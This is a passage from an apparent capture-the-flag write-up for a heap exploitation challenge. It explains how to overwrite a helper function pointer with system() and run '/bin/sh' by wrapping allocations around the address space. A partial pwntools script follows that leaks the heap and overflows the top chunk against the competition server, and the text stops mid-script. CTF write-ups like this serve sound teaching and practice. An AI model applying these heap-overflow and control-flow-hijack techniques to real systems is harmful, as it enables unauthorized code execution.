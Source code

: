   |wildrnss metadata|   |
  +                 + --+
  | wilderness      |


  high address space
{% endhighlight %}

## Stage 4 - Overflowing the helper function with `system()`.

The `helper_func_ptr` is still placed before whatever we can manipulate. So to overflow it I'm going to wrap around the whole address space again and end up right in the beginning of the heap. But before doing that I need to set the argument for `system()`.

The helper function is called with `blr X1` instruction and the address of the first entries structure that currently holds `entries->large`.  So to reach that location I will just allocate a large enough (positive value this time :) buffer using `Set large` and store '/bin/sh' there via `Set small` (remember it's using strdup() so we gotta account for metadata overhead).

After that we can perform another negative allocation to wrap around the 64bit address space and end up right at the beginning of the heap. Once we are there we can just use `Set small` to overwrite the helper function with the address of system and we are done.

## Full script

{% highlight python %}
#!/usr/bin/env python

from pwn import *

r = remote('ssl-added-and-removed-here.ctfcompetition.com', 11111, ssl=True)
#r = remote('localhost', 31337)
sleep(1)
r.recv(timeout=1)
r.recv(timeout=1)

# Stage 1 Leak the heap
r.sendline('1')
r.recv(timeout=1)
r.recv(timeout=1)

r.sendline('3')
r.recv(timeout=1)

r.sendline('AA')
r.recv(timeout=1)

r.sendline('4')
r.recv(timeout=1)

r.sendline('2')
r.recvuntil("Large: ")
leak = int(r.recv(12), 16)
log.info("Leak: " + hex(leak))


# Stage 2 Overflow the wilderness
r.sendline('1')
r.recv(timeout=1)

r.sendline('1')
r.recv(timeout=1)

r.sendline("\xff" * 0x1f8)